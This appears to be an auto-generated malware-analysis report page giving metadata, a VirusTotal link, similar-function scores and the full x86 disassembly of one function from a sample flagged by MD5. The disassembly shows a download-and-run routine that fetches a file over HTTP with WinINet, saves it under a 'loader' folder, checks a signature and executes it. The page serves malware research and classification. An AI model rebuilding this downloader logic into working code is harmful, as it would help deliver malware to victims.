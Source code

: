 ```yaml
---
layout: post
title:  "fcn.00401569 @ de21a548b66aa6c0b17491b6a31e14fa"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00401569
- **Origin (md5):** de21a548b66aa6c0b17491b6a31e14fa
- **VirusTotal:** [virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>
<span class="tag" id="HTTP">HTTP</span>


# Similar Functions

1. [fcn.0040128f][similar_1_ref] (sim.: 0.9486642270503803)
2. [fcn.00405750][similar_2_ref] (sim.: 0.8897269468459765)
3. [fcn.0040c8c9][similar_3_ref] (sim.: 0.8857659873370523)
4. [fcn.00433e73][similar_4_ref] (sim.: 0.8855663371130632)
5. [fcn.00553644][similar_5_ref] (sim.: 0.8807821595680493)


# Disassembled Code

{% highlight nasm %}
jmp 0x4040e6
push ebp
mov ebp,esp
push 0xffffffffffffffff
push 0x43a17b
mov eax,dword fs:[0]
push eax
mov eax,0x402c
call fcn.0040cf10
push ebx
push esi
push edi
mov eax,dword[0x4481b0]
xor eax,ebp
push eax
lea eax,[ebp-0xc]
mov dword fs:[0],eax
mov eax,dword[ebp+8]
mov ecx,dword[eax-0xc]
xor ebx,ebx
cmp ecx,ebx
mov dword[ebp-4],1
jne 0x404142
lea ecx,[eax-0x10]
call fcn.00401050
mov ecx,dword[ebp+0xc]
add ecx,0xfffffff0
call fcn.00401050
xor eax,eax
jmp 0x40447e
push eax
lea eax,[ebp-0x1c]
push eax
call fcn.0040145b
pop ecx
pop ecx
push 0x4498ac
lea ecx,[ebp-0x14]
mov byte[ebp-4],2
call fcn.004014a1
lea eax,[ebp-0x28]
push ebx
push eax
mov byte[ebp-4],3
call fcn.0040123a
pop ecx
pop ecx
push eax
lea ecx,[ebp-0x14]
mov byte[ebp-4],4
call fcn.00401069
mov ecx,dword[ebp-0x28]
add ecx,0xfffffff0
mov byte[ebp-4],3
call fcn.00401050
push str.loader
mov edi,0x104
push edi
lea ecx,[ebp-0x14]
call fcn.00401393
mov esi,dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call esi
push 0xffffffffffffffff
lea ecx,[ebp-0x14]
call fcn.00401532
push dword[ebp-0x14]
call dword[sym.imp.SHLWAPI.dll_PathFileExistsW]
test eax,eax
jne 0x4041e0
push ebx
push dword[ebp-0x14]
push ebx
call dword[sym.imp.SHELL32.dll_SHCreateDirectoryExW]
push dword[ebp-0x14]
call fcn.0040170d
pop ecx
push 0x80
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_SetFileAttributesW]
lea eax,[ebp-0x14]
push eax
lea ecx,[ebp-0x2c]
call fcn.004010be
push dword[ebp-0x1c]
lea ecx,[ebp-0x2c]
push edi
mov byte[ebp-4],5
call fcn.00401393
push eax
call esi
push 0xffffffffffffffff
lea ecx,[ebp-0x2c]
call fcn.00401532
push ebx
push ebx
push ebx
push ebx
push str.DownlaodAndRun
mov byte[ebp-0xd],bl
call dword[sym.imp.WININET.dll_InternetOpenW]
cmp eax,ebx
mov edi,dword[ebp-0x2c]
mov dword[ebp-0x20],eax
je 0x40434b
push ebx
push 0x80000000
push ebx
push ebx
push dword[ebp+8]
push eax
call dword[sym.imp.WININET.dll_InternetOpenUrlW]
cmp eax,ebx
mov dword[ebp-0x18],eax
je 0x40432f
push ebx
lea ecx,[ebp-0x38]
push ecx
lea ecx,[ebp-0x34]
push ecx
push 0x20000005
push eax
mov dword[ebp-0x34],ebx
mov dword[ebp-0x38],4
call dword[sym.imp.WININET.dll_HttpQueryInfoW]
test eax,eax
mov esi,dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
jne 0x40427a
push str._Statistics::DownlaodAndRun__DownlaodAndRun:HttpQueryInfo_Error.
call esi
mov byte[ebp-0xd],1
push ebx
lea eax,[ebp-0x38]
push eax
lea eax,[ebp-0x30]
push eax
push 0x20000013
push dword[ebp-0x18]
mov dword[ebp-0x30],ebx
call dword[sym.imp.WININET.dll_HttpQueryInfoW]
test eax,eax
jne 0x40429c
mov byte[ebp-0xd],1
cmp dword[ebp-0x30],0xc8
je 0x4042a9
mov byte[ebp-0xd],1
cmp byte[ebp-0xd],bl
jne 0x404324
cmp dword[ebp-0x34],ebx
je 0x404324
push 0x43f974
push edi
call fcn.0040cea7
cmp eax,ebx
pop ecx
pop ecx
mov dword[ebp-0x28],eax
jne 0x4042d4
push str._Statistics::DownlaodAndRun__DownlaodAndRun:File_Create_Error
call esi
mov byte[ebp-0xd],1
jmp 0x404324
mov dword[ebp-0x24],ebx
lea eax,[ebp-0x24]
push eax
push 0x4000
lea eax,[ebp-0x4038]
push eax
push dword[ebp-0x18]
call dword[sym.imp.WININET.dll_InternetReadFile]
cmp eax,ebx
je 0x404317
cmp dword[ebp-0x24],ebx
je 0x40431b
push dword[ebp-0x28]
lea eax,[ebp-0x4038]
push dword[ebp-0x24]
push 1
push eax
call fcn.0040cd5f
add esp,0x10
cmp dword[ebp-0x24],ebx
jne 0x4042d7
jmp 0x40431b
mov byte[ebp-0xd],1
push dword[ebp-0x28]
call fcn.0040cb84
pop ecx
push dword[ebp-0x18]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x404340
mov esi,dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
push str._Statistics::DownlaodAndRun__DownlaodAndRun:InternetOpenUrl_Error
call esi
mov byte[ebp-0xd],1
push dword[ebp-0x20]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x40435c
mov esi,dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
push str._Statistics::DownlaodAndRun__DownlaodAndRun:InternetOpen_Error
call esi
mov byte[ebp-0xd],1
cmp byte[ebp-0xd],bl
jne 0x404442
push edi
call fcn.0040110e
test eax,eax
pop ecx
je 0x404442
lea ecx,[ebp-0x18]
call fcn.0040141f
push edi
lea ecx,[ebp-0x18]
mov byte[ebp-4],6
call fcn.004011cc
test eax,eax
jne 0x4043c9
push str.Check_Downlaod_File_Sign_fail
call esi
lea ecx,[ebp-0x18]
mov byte[ebp-4],5
call fcn.004012b2
lea ecx,[edi-0x10]
call fcn.00401050
mov ecx,dword[ebp-0x14]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x1c]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+8]
add ecx,0xfffffff0
jmp 0x40412b
lea eax,[ebp-0x1c]
push eax
mov esi,str.QQLive
lea eax,[ebp-0x20]
push esi
push eax
call fcn.00401604
push dword[eax]
mov byte[ebp-4],7
push edi
call fcn.004016db
mov ecx,dword[ebp-0x20]
add esp,0x14
add ecx,0xfffffff0
mov byte[ebp-4],6
call fcn.00401050
lea eax,[ebp-0x1c]
push eax
lea eax,[ebp-0x20]
push esi
push eax
call fcn.00401604
push dword[eax]
mov byte[ebp-4],8
push edi
call fcn.004010ff
mov ecx,dword[ebp-0x20]
add esp,0x14
add ecx,0xfffffff0
mov byte[ebp-4],6
call fcn.00401050
push 1
push 1
push dword[ebp+0xc]
push edi
call fcn.004012da
add esp,0x10
lea ecx,[ebp-0x18]
mov byte[ebp-4],5
call fcn.004012b2
lea ecx,[edi-0x10]
call fcn.00401050
mov ecx,dword[ebp-0x14]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x1c]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+8]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0xc]
add ecx,0xfffffff0
call fcn.00401050
xor eax,eax
cmp byte[ebp-0xd],bl
sete al
mov ecx,dword[ebp-0xc]
mov dword fs:[0],ecx
pop ecx
pop edi
pop esi
pop ebx
leave
ret 8
{% endhighlight %}


[similar_1_ref]: /report/fcn.0040128f@de21a548b66aa6c0b17491b6a31e14fa
[similar_2_ref]: /report/fcn.00405750@69b3c79878674ea715338a112bb5caa6
[similar_3_ref]: /report/fcn.0040c8c9@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_4_ref]: /report/fcn.00433e73@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_5_ref]: /report/fcn.00553644@c60344b51fa39a329b92557d24ff7670
[virustotal_ref]: https://www.virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa